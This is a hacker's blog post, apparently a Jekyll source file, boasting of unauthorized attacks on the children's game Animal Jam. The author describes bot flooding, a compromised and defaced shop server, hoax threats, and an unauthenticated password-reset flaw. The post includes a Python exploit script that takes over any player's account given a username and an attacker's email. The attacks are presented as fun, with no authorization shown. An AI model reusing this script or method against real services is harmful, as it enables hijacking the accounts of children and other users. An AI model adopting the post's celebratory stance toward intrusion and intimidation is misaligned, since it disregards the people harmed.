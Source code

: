 ```yaml
---
layout: post
title: "Electric Boogaloo: Hacking Animal Jam"
subtitle: "~ AKA, how we pwned Animal Jam ~"
date: 2021-9-7
author: chob
tags: pentesting
finished: true
excerpt_separator: <!--more-->
---
```


> **DISCLAIMER**: The aim of this post is not to offend or attack anyone. Instead it is to inform to you the story about how Animal Jam was pwned by us (AstroSquad). I do not condone malicious behavior. Thank you for understanding.

# Preface
As the title suggests, this post will touch on how me and a few other junior security researchers (also nicknamed "AstroSquad") were able to "hack" or "pwn" a poorly secured kids game called "Animal Jam". <!--more--> <br>

This all started when one of our researchers (psuedo named "Moon") looked into Animal Jam, he messed around with the API and told us that there wasn't a rate limit on the RPS (Request Per Second), one of us wrote a script to automate the registration process and made hundreds of bots that joined the game servers which froze players clients. They shortly added rate limit globally to the API. That was only the start, on August 6 2020, another one of our researchers (psuedo named "HellSec") found the IP of one of their boxes, we assumed that we couldn't get into it at first, but within a few hours, we managed to pwn the box. Surprisingly there was not much on the box, it was a AWS box and it was the box for the Animal Jam shop (**shop.animaljam.com**). With a limited time, we made a simple deface page and overwrote it to the index page.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png" target="_blank"><img class="centerImgMedium" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png"></a>

As you can see from the complilation above, they believed we had a apparent "ip logger" and other malicious items, this gave us a notorious reputation as this group of 40 year olds in their mothers basement that are very **1337**, which was not the case. From there, we wanted to test how much the community and the company WildWorks was afraid of apparent fake threats. So around October 2020, we made a threat that we were going to "hack" Animal Jam on halloween, the community freaked and made a bunch of YouTube videos with WildWorks putting their servers on lockdown. It was the biggest lawl for us. <br>

Now that you understand the context before the main pwn; without further ado, let's get into the main pwn. On August 16, 2021, we discovered a 0day **no-auth** full account takeover on Animal Jam. How? simple. A fucking password reset endpoint. Let me repeat that, a fucking **password reset endpoint**, someone must've been some crack while writing the endpoint lol (╯°□°）╯︵ ┻━┻.

****
# Discovering the vulnerability
Basically, one of our researchers used Fiddler to capture all the traffic coming from the Animal Jam application because he was capturing all the traffic he managed to come across the `/disable` endpoint. Every account on Animal Jam is linked to a certain "parent account", and since he got the endpoint for `/disable` he was able to look at the post data (the data that is sent with the post request) he noticed on the post data you were able to send a custom email in the post data so he replaced the email, not expecting anything until.. he recieved a email from Animal Jam and funny enough, once he clicked on the disable account link, it automatically overrided the email that is already linked to the account with the custom email you put in.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif"></a>

Only issue with this is that it didn't disable the player, but knowing it did link the account, he searched for other endpoints using Fiddler that had the same post data requirements, until.. he found the `/send_password_reset` endpoint and by sending the request he was able to takeover ANY players account by sending a post request with the generosity with of course, no authentication at all. He then alerted us about this and showed it wasn't a joke on a screenshare.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg"></a>

****
# Mass Exploitation
Now we know the vulnerability, how do we use it on a large scale attack? Simple! All we need to do is write a script to send a post request with the post data and the target with a burner email.

### - Writing the exploit using python3
Lets start by making a Python script and then importing the request library for sending the post request and sys for argument handling and then supplying the endpoint with the request:
```python
#!/usr/env/python3
import requests
import sys

class Exploit:

    def __init__(self, username, email):
        self.username = username
        self.email = email

    def execute(self):
        endpoint = f'https://api.animaljam.com/game_account/{username}/send_password_reset/desktop'
        return requests.post(url=endpoint, data={'email': email, 'user_name': username}, headers={'auth': 'null'})

def main():
    if len(sys.argv) < 3:
        print(f'Usage: py {sys.argv[0]} <USERNAME> <YOUR_EMAIL>')
        sys.exit()

    username = sys.argv[1]
    email = sys.argv[2]

    Exploit(username, email).execute()

if __name__ == '__main__':
    main()
```
and **PWNED**!! Now you can takeover anyones account just by supplying the username and a burner email lol.
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/beamed.png" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/beamed.png"></a>

Although it was patched due to the security advisory we released the next day because Animal Jam was having some issues making a patch lol, but here's a gif & a image of us on the AJHQ account on the parents dashboard using this exploit.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif"></a>
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png"></a>

****
# Conclusion
This company "Animal Jam" is a example of greed over good security, if any companies are reading this, don't be like these guys, but hey,
thank you for reading if you got this far, this is my first blog i've made and I'll be making more very soon and this was funny fun to make <br>
(ﾟДﾟ)y─┛~~ 
